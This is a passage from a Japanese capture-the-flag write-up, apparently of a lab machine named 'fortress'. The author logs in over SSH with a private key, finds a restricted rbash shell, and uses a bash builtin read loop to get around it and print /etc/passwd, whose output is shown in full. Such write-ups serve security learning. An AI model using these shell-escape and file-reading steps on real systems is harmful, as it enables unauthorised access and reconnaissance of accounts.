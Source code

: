 SSH でログイン可能。

```sh
$ ssh h4rdy@10.10.154.39 -i ./id_rsa
```

## rbash

使えるコマンドが極度に制限されている。

```sh
h4rdy@fortress:~$ pwd
/home/h4rdy

h4rdy@fortress:~$ ls -al
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

h4rdy@fortress:~$ echo $PATH
/home/h4rdy
```

ビルトインコマンドでファイルを読む。

```sh
h4rdy@fortress:~$ while IFS= read -r line; do
>   echo "$line"
> done < user.txt
-rbash: user.txt: No such file or directory
```

/etc/passwd

```sh
h4rdy@fortress:~$ while IFS= read -r line; do
>   echo "$line"
> done < /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
j4x0n:x:1000:1000:j4x0n,,,:/home/j4x0n:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:111:118:ftp daemon,,,:/srv/ftp:/bin/false
veekay:x:1001:1001::/home/veekay:/bin/bash
```